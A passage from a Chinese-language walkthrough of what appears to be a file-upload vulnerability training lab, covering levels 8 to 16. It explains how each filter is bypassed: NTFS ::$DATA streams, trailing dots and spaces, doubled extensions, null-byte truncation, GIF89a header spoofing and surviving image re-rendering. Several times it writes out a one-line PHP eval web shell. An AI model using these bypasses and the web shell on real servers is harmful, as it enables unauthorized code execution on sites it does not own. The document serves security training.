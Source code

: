 格式如下：

```<filename>:<stream name>:<stream type>```

例如该payload,```1.php:jpg```，流类型以$开头，默认流类型为data，故该payload的完整形式为```1.php:jpg:$data```。这时查看上传目录发现多了一个1.php文件。

文件内容在数据流文件中，我们当初上传的就是一个文件流文件，之所以会顺带生成1.php，是因为它没有找到自己的宿主文件，所以才创建了一个。

故构造如下文件名：```8.php::$data```，文件内容同上，即可getshell。

#### pass-09

查看源码发现多了首尾去空操作，并且是先删除了文件名最后的点再首尾去空。这时利用逻辑漏洞绕过过滤。构造文件名：```9.php. .```(上传文件名后加点+空格+点)，文件内容同上，即可getshell。

#### pass-10

查看源码发现这次是进行特定字符替换，将黑名单中的字符串替换成空。这里通过双写php绕过。上传文件名为```10.pphphp```的文件，文件内容同上，即可getshell。

#### pass-11

查看源码发现这次是白名单过滤。抓包发现多了一个save_path参数。再观察文件上传后的路径构造方式，发现每次都会上传到save_path目录下的一个随机文件名上。由于只能上传jpg,png,gif文件，故没法再通过文件名绕过了。这里可以考虑%00截断。

payload：```../upload/11.php%00```

同时上传1.jpg文件，文件内容<?php eval($_POST['123']); ?>，随后访问11.php，发现可以getshell。

#### pass-12

题目内容几乎和pass-11一样，只是upload路径改成了post方式传入，这里不能再通过%00，因为get方式传入%00会被web服务器进行解码成NULL，而post方式%00不会被解码，需要手动传入0x00。故通过修改二进制码来完成。在save_path栏输入"../upload/12.php "，然后进入hex部分，对应到刚刚输入的内容最后一个空格，为20，将他修改为00，随后上传一个名为12.jpg的文件，文件内容```<?php eval($_POST['123']); ?>```，即可getshell。

#### pass-13

查看源码发现是检查文件头，这里通过文件头部加入GIF89a绕过。上传名为13.php的文件，文件内容

```
GIF89a
<?php eval($_POST['123']);
?>
```

即可绕过检查，成功getshell。

#### pass-14

查看源码发现使用getimagesize函数判断文件类型，同理检查文件头，故绕过方法同上。

> 不过有一点需要注意，pass13和pass14两个题目上传的一句话其实是无法解析的，除非有文件包含问题或者是解析漏洞，但这里题目要求上传图片马，所以这样操作即可。

#### pass-15

查看源码发现使用exif_imagetype函数检查图像类型，实际上是读取图像的第一个字节并检查其签名。同理可以通过文件头GIF89a绕过。方法同上。

#### pass-16

查看源码发现这次进行了后缀名判断，content-type判断以及通过imagecreatefromgif(imagecreatefrompng/imagecreatefromjpg)等函数判断是否为gif(png/jpg)图片，最后进行二次渲染。这里gif和png绕过方法不同，我们先将一句话插入到gif的末尾，上传，再二进制格式打开上传的图片，发现我们插入的一句话消失了，说明这里不能将其插入在末尾。那么怎么插入才不会被删除呢？我们观察二次渲染前后没有改动的内容部分，在这里面插入我们的一句话，就可以绕过二次渲染了。png文件和jpg文件的修改方式不同(png文件插入后还需修改循环冗余码，jpg文件暂时不知道)

#### pass-17
```